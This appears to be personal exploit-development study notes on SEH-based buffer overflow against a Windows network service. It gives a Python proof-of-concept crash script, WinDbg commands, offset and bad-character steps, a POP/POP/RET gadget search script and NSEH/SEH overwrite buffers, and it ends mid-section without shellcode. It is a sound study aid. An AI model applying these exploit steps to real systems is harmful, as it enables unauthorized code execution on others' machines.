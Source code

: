# SEH
The poc for this pow is the following 
```
#!/usr/bin/python

import sys 
import socket
from struct import pack

server = sys.argv[1]

port = 9121
size = 1000

inputBuffer = b"\x41" * size

header =  "\x75\x19\xba\xab"
header += "\x03\x00\x00\x00"
header += "\x00\x40\x00\x00"
header += pack('<I', len(inputBuffer))
header += pack('<I', len(inputBuffer))
header += pack('<I', ord(inputBuffer[-1]))


buf = header + inputBuffer


try:
    
    print ("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buf)
    s.close()

    print("Done !")

except:

    print("[-] Unable to communicate to target %s:%s" %(server,port)) 
```
## Understanding the SEH 
### Walk the exception list in windbg after crash
_EXCEPTION_REGISTRATION_RECORD structures is saved in the stack
```
!teb #take ExceptionList address

dt _EXCEPTION_REGISTRATION_RECORD 01c4fe1c #01c4fe1c will be the exception list address

#take the Next address

dt _EXCEPTION_REGISTRATION_RECORD 0x01c4ff54 #0x01c4ff54 will be the next address previously grabbed    

```
### List the current thread exception handler chain - Instead of the manual process (consider the last address shown as the handler address)
```
!exchain
```
Inspect the callstack (**k**) to determine which functions were called before the eip was overwritten

## Gaining Code Execution
### Determine the exact offset required to precisely overwrite the exception handler on the stack.
```
msf-pattern_create -l 1000
```
The new pow
```
server = sys.argv[1]

port = 9121
size = 1000

inputBuffer = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8...Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"
```
In windbg
```
!exchain
```
In kali
```
msf-pattern_offset - l 1000 -q 33654132 # 33654132 being the address of the handler got with exchain
```
The new pow
```
server = sys.argv[1]

port = 9121
size = 1000

inputBuffer = b"\x41" * 128 # 128 being the size got with msf-pattern_offset
inputBuffer += b"\x42\x42\x42\x42"
inputBuffer+= b"\x43" * (size - len(inputBuffer))
```
Run `!exchain` to confirm the handler address is overwritten by `\x42\x42\x42\x42` 
### Detect Bad charcaters
```
badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
    "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
    "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
    "\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
    "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
    "\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
    "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
    "\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
    "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
    "\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
    "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
    "\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
    "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    "\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
    "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
    "\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    )
```

The pow
```
inputBuffer = b"\x41" * 128
inputBuffer+= b"\x42\x42\x42\x42"
inputBuffer += badchars
inputBuffer+= b"\x43" * (size - len(inputBuffer))
```
The instruction pointer should be overwritten with the second argument (EstablisherFrame) passed to the _except_handler function (in the stack). In order to check the bad chars:
```
dds esp L5
db 0132ff54 # 0x0132ff54 being the address of the second argument of ntdll!ExecuteHandler2 function noticed in the top of the stack
```

### Finding a P/P/R Instruction Sequence
```
.load narly
!nmod

#scripting
# should be placed in a ".wds" file (ex C:\Users\vagrant\Desktop\find_ppr.wds)
#here 10000000 and 10226000 are start and end address of the module (with “/SafeSEH OFF” and not containing bad chars) to check for P/P/R instruction

.block
{
    .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
    {
        .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
        {
            s-[1]b 10000000 10226000 $t0 $t1 c3
        }
    }
}
```
We execute this in the windows machine 
`$><C:\Users\vagrant\Desktop\find_ppr.wds`
Once an address is picked (assumed 0x1015a2f0 here), this is the new poc
```
inputBuffer = b"\x41" * 128
inputBuffer += pack("<L" , (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax ; pop ebx ; ret
inputBuffer+= b"\x43" * (size - len(inputBuffer))
```
Break point at this address in debugger
`bp 0x1015a2f0`


### Write the Next SEH (offset - 4)
The handler is execute then the next handler 
The after executing the P/P/R, we should be redirected to the Next Handler address overwriiten with 41 41 41 41 (4 bytes before the offset which is 128 here)
The new pow
```
inputBuffer = b"\x41" * 124 
inputBuffer += b"\x42" * 4 # (NSEH)
inputBuffer += pack("<L" , (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax ; pop ebx ; ret
inputBuffer += b"\x43" * (size - len(inputBuffer))
```
### if a jump is needed

## Short/Long jump to shellcode
The full shellcode may not be located at the begenning of the stack, so you should search it address in the stack

## shellcode 

### inspect the callstack (k) to determine which functions were called before the eip was overwritten

## Island hooping 
after P/P/R, `u eip` or `dds esp` 
do we need to jump ? if yes
```
a
jmp 0x018fff5c # 0x018fff5c being here where we want to jump to from the current step
u eip L1 # this will give the assembly opcode for the jump
dds eip L4
